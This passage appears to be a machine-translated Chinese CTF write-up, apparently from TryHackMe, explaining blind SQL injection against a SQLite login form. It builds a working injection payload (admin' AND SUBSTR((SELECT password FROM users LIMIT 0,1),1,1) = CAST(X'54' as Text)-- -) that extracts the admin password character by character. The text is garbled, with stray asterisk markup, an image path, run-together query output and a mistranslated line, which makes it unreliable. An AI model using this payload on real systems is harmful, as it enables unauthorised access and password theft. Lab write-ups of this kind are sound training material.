 *****下一步是将管理员的密码作为字符串输入到 [substr](https://sqlite.org/lang_corefunc.html#substr) 函数中。这可以通过以下查询实现:*****

```
*****(SELECT password FROM users LIMIT 0,1)*****
```

*****[LIMIT](https://sqlite.org/lang_select.html#limitoffset) 子句用于限制 SELECT 语句返回的数据量。第一个数字 0 是偏移量，第二个整数是限值:*****

```
*****LIMIT <OFFSET>, <LIMIT>*****
```

*****下面是几个关于[限制](https://sqlite.org/lang_select.html#limitoffset)条款的例子。右边的表代表用户表。*****

```
*****sqlite> SELECT password FROM users LIMIT 0,1THM{Blind}sqlite> SELECT password FROM users LIMIT 1,1Summer2019!sqlite> SELECT password FROM users LIMIT 0,2THM{Blind}Summer2019!*****
```

*****THM { Blind }夏季！维京 123*****

*****返回管理员密码第一个字符的 SQL 查询如下所示:*****

```
*****SUBSTR((SELECT password FROM users LIMIT 0,1),1,1)*****
```

*****现在我们需要一种方法来比较密码的第一个字符和我们猜测的值。比较字符很容易，我们可以这样做:*****

```
*****SUBSTR((SELECT password FROM users LIMIT 0,1),1,1) = 'T'*****
```

*****然而，这种方法是否有效将取决于应用程序如何处理输入。对于这个挑战，应用程序将用户名转换为小写，这打破了前面提到的方法，因为大写 T 与小写 T 不同。ASCII T 的十六进制表示是 0x54，小写 T 是 0x74。为了处理这个问题，我们可以通过替换类型 [X](https://www.sqlite.org/printf.html#substitution_types) 将字符输入为十六进制表示，然后使用 SQLite 的 [CAST](https://sqlite.org/lang_expr.html#castexpr) 表达式将值转换为数据库期望的数据类型。*****

*****" X，X:参数是以十六进制显示的整数。小写的十六进制用于%x，大写的用于% X”“([sqlite.org](https://www.sqlite.org/printf.html#substitution_types))*****

*****这意味着我们可以将 T 输入为 X'54 '。要将值转换为 SQLite 的文本类型，我们可以使用如下的 CAST 表达式:CAST(X'54' as Text)。我们最后的查询现在看起来如下:*****

```
*****SUBSTR((SELECT password FROM users LIMIT 0,1),1,1) = CAST(X'54' as Text)*****
```

*****在使用我们构建的查询之前，我们需要使它适合原始查询。我们的查询将放在用户名字段中。我们可以通过添加一个单引号(')来关闭 username 参数，然后附加一个 and 运算符来添加我们的条件。然后在查询末尾添加两个破折号(—)来注释掉密码检查。完成后，我们恶意查询如下所示:*****

```
*****admin' AND SUBSTR((SELECT password FROM users LIMIT 0,1),1,1) = CAST(X'54' as Text)-- -*****
```

*****当将其注入用户名字段时，数据库执行的最终查询将是:*****

```
*****SELECT **id**, username FROM users WHERE username = 'admin' AND SUBSTR((SELECT password FROM users LIMIT 0,1),1,1) = CAST(X'54' as Text)*****
```
